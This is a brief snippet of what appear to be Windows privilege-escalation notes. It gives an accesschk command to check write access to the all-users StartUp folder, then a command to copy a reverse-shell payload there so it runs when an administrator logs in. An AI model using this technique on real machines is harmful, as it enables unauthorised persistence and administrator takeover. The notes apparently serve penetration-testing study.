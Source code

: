 **Important: startup files only run as the logged in user**
Check permissions of startup files:
```
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

If you have writability, include a reverse shell:
```
cp REVERSE_SHELL "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```
Wait for admin to connect to get an admin reverse shell.


